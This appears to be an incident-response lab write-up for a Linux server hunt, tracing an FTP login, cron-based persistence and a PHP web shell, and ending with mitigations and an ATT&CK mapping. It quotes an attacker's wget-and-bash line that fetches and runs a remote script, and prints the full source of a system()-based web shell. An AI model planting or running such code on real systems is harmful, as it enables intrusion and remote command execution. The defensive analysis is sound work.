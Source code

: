 # Lab: Linux System Hunt

## Scenario 

A potential compromise on a Linux developer server after suspicious Slack activity and unusual network connections were reported.The objective was to investigate potential host-based indicators and confirm whether the two incidents were related.

## Summary
The threat actor gained initial access to the server via FTP and established persistence using a cron job that periodically downloaded and executed a malicious shell script. Further analysis revealed the use of a PHP web shell for remote command execution.

### Commands Executed

| Purpose | Command |
|---|---|
| Identify successful FTP authentications | `journalctl \| grep -i "ftp" \| grep -i "success"` |
| Inspect `/tmp` activity | `journalctl \| grep -i /tmp` |
| Find files modified within time window | `find / -newermt "3 Sept 2021 06:00:03" ! -newermt "3 Sept 2021 06:01:47" 2>/dev/null` |
| Review activity for account `ftpadam` | `journalctl \| grep ftpadam \| grep "110.44.125.139"` |

## Findings (timeline)

### Initial Access
- Timestamp: Sept 3, 2021 – 05:52:31
- Method: FTP login using account ftpadam
- Source IP: 110.44.125.139
- Evidence of successful FTP authentication confirming external access to the system.
![FTP](image.png)

### Persistence
- Timestamp: Sept 5, 2021 – 00:00:01
- Mechanism: A shell script was dropped in /tmp via wget, made executable, and executed by root.
- Command observed in logs: `wget http://crest.tt/bJx3 -O /tmp/tmp.sh && chmod +x /tmp/tmp.sh && bash /tmp/tmp.sh`


- A weekly cron job was also created to automatically download and execute the same remote script as root, ensuring continuous persistence.
![Shell Script](image-1.png)
![Cron Job](image-2.png)

### Remote code execution via web shell
A PHP file was. The snippet in the screenshot below checks whether an HTTP parameter named z was provided (\$_REQUEST["z"]). If so, it prints a "pre" tag, assigns the parameter to \$z, and calls system(\$z). system() executes the string as a shell command on the server and returns output. *die* ends script execution after running the command. An attacker can send `http://victim/shell.php?z=whoami` (or other commands) and have the server run arbitrary shell commands as the web server user

Snippet observed:
`<?php 
if(isset($_REQUEST["z"])) {
  echo "<pre>"; 
  $z = ($_REQUEST["z"]); 
  system($z); 
  echo "</pre>"; 
  die; 
}
?>`

### Last Activity
The attacker’s last observed activity occurred at Sept 3, 2021 – 09:25:25.
![Last Activity](last_activity.png) 


## Mitigation Recommendations
- Rotate all service passwords and kill sessions for user account `ftpadam`
- Block ip `110.44.125.139` at the firewall level
- Remove the cron jobs created by the actor
- Remove malicious PHP web shell
- Install an IDS/IPS for future monitoring


## MITRE ATT&CK Mapping
- T1133 (initial access via remote services)
- T1053.003 (Persistence via Scheduled Task/Job)

